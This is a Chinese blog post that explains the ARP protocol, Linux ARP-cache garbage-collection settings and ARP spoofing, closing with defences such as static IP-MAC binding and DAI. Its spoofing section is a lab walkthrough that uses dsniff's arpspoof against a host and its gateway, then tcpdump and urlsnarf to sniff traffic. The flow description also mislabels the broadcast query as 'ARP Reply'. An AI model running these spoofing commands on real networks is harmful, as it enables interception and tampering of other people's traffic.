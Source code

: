 ```yaml
---
layout:     post
title:      ARP的原理与基本流程
date:       2019-08-06 19:18:00
author:     "banban"
header-img: "/images/linux/arp-bg.png"
catalog: true
tags:
    - Linux
---
```


# ARP的原理与基本流程

在局域网环境下，主机之间是通过ARP协议获取对应机器的MAC地址的，ARP交换是在二层网络上面的协议。IP数据包在以太网中传递，但是对于以太网设备是不能识别32位的IP地址的，它只能识别48的物理MAC地址，为此在每一台主机上面都会维护一张从IP地址到物理地址的映射表，而不断更新这个映射表就是ARP（地址解析协议）所需要做的事情，ARP协议位于TCP-IP协议的底层。

ARP协议的主要流程是

- 1\. 当网络层的TCP-IP协议封装的数据包传来时，主机A解开对应的数据包，得到对应的主机B的目的IP地址
- 2\. 根据封包中的目的IP地址去检索本地的ARP表，分三种情况处理
    - 如果找到了对应的记录则将对应的目的MAC地址装入到帧数据包，同时将数据包发送至对应的主机；
    - 如果在本地的ARP表中没有对应的映射记录，主机A需要确定对应的目的IP地址和自己是否在同一个子网下，如果在同一个子网下面，则主机A会发起一个ARP Reply的广播封包请求，这个封包会发送至局域网中的每一台机器；进入3
    - 如果不在同一个子网下，则主机A会将ARP Reply封包发给默认网关询问对应的MAC地址
- 3\. 当机器接收到了ARP Reply封包之后，解开封包查看目的IP地址是否为自己的IP地址，如果是则将源MAC地址和IP地址记录在本地的ARP表中（如果已经存在则覆盖），同时回应自己的MAC地址和IP地址响应主机A；如果解开之后的目的IP地址不是自己的地址，则忽略
- 4\. 在发送端收到了对应的ARP响应之后，则将ARP Reply的记录添加到本地的ARP表中，同时用这个目的地址将数据发送至目的主机

举一个例子，如下图
![image](/images/linux/arp.jpg)

- 主机A想要访问公网，执行了`ping 114.114.114.114`的操作
- A默认会将这个请求包也就是ping包发给网关192.168.10.1，但是主机A并不知道网关的mac地址，于是这个时候A会发送一个ARP Request的广播请求，询问在局域网中IP地址为192.168.10.1的mac地址。
- 当路由器收到了这个ARP请求之后，发现请求中的ip地址是自己的地址，会回应A，发送一个回应单播包给A，告诉它自己的mac地址是什么。
- 当A拿到了网关的物理地址后，就可以将icmp的数据包封装并发送到对应的路由器中
- 路由器解开数据包判断对应的目的地址是什么，然后查看自己本地的路由表进行路由，将请求包转发出去。
- 路由器在之后接受到了公网回应的icmp回显包的时候，会看到这个回显包的源地址是`114.114.114.114`，目的地址是`192.168.10.3`，因为路由器需要查看自己本地的arp表去查看是否有对应的目的地址的匹配表，如果有则将回显包发送到对应的mac地址的机器A，如果没有，就需要在局域网中发送一个arp request的请求，询问A的mac地址。
- 主机A最后收到了icmp的回显包
  
在这个过程中，会看到假设说主机A或者路由器在自己本地的arp表中如果没有对应的记录的时候，都需要去询问对应的mac地址并且更新arp表，也就是说arp表示会一致刷新的。

那么在linux系统中，我们的arp表到了什么情况会被清理呢？

在linux系统中，arp表是缓存在内存中的，因此在到了一定的量之后，会有对应的垃圾回收器来回收对应的arp表。对应的配置在一下文件中可以找到
```
Debian 9

/proc/sys/net/ipv4/neigh/default/gc_thresh1 
/proc/sys/net/ipv4/neigh/default/gc_thresh2 
/proc/sys/net/ipv4/neigh/default/gc_thresh3
```
默认来说他们的值分别为128、512、1024，第一个值的垃圾回收器运行的最低要求，也就是说在arp数目达到了这个值之后才会启动对应的垃圾回收进程，第二个值是一个开始回收的阈值，当arp表的数目超过这个值一定时间（5秒）之后，垃圾回收器就会对arp表进行回收，而第三个值则是一个触发阈值，就是说一旦超过这个值垃圾回收器马上就进行arp的清理，当然在垃圾回收的时候，并不是全部都刷掉的，而是会根据一定的策略进行回收。

## ARP欺骗

其实在ARP的整个工作流程中不难看出，其实是存在一定的可乘之机的。也就是说在图中的B主机是可以加入到整个arp工作流程来进行arp欺骗的。

具体的做法如下
![image](/images/linux/arp_cheat.jpg)

- 在A需要往外发送icmp的一个回显请求报文的时候，主机B发起ARP攻击，重复得发送一个ARP回应包，包的内容为`mac:xx:xx:xx:yy:xx ip:192.168.10.1`，以此来伪装自己就是网关，让A将数据发给自己
- 于此同时，主机B也通过回应报文的形式告诉网关也就是路由器，称自己是主机A，具体的报文内容为`max: xx:xx:xx:yy:xx ip: 192.168.10.3`，这样主机B就达到了数据包嗅探的能力
- 主机A先将自己的数据包发给B，因为它误以为B是网关，B再将数据转发给路由器，这个时候路由器接收了数据之后将数据转发到公网
- 这里主机B是完全可以侦听A的数据包的，甚至去篡改A的数据包
  
下面可以通过linux来模拟这么一个实验

首先安装一个arp攻击的模拟工具包
```
apt install dsniff
```
同时在攻击的机器上面打开ip转发
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

然后使用 arpspoof 命令进行欺骗, 命令使用方法如下:
```
arpspoof -i <网卡名> -t <欺骗的目标> <我是谁>
```

分别开两个终端:

终端1, 欺骗主机 A 我是网关
```
arpspoof -i eth0 -t 192.168.10.3 192.168.10.1
```
终端2, 欺骗网关我是主机 A
```
arpspoof -i eth0 -t 192.168.10.1 192.168.10.3
```

这样之后，在主机B上面就可以执行tcpdump或者urlsnarf来侦听数据了
```
apt install tcpdump snarf
```
使用tcpdump
```
tcpdump -nntvvv -i eth0 port 8080 
```
使用urlsnarf
```
urlsnarf -i eth0
```

arp欺骗的形式有很多，例如有：中间人攻击、被动式数据嗅探。

如何防御 ARP 欺骗攻击?

- 可以通过登陆到网关地址所在的机器中（路由器）中修改配置，将ip和mac地址绑定，绑定之后就不会让arp攻击者肆意更改网关所在的arp表了。网络设备例如交换机有一种叫做动态ARP防御的技术叫做DAI，交换机会维护一张ip-mac-port的表，如果在arp询问过程中出现有冲突的就会丢弃。
- 对于客户机，可以在本地记录mac-ip的对应关系表，当出现欺骗的时候及时发现并且丢弃。这方面可以使用一些软件辅助电脑例如腾讯管家、360。

## 参考

* [局域网 ARP 欺骗原理详解](https://segmentfault.com/a/1190000009562333)
* [浅谈Arp攻击和利用Arp欺骗进行MITM](https://www.anquanke.com/post/id/151762)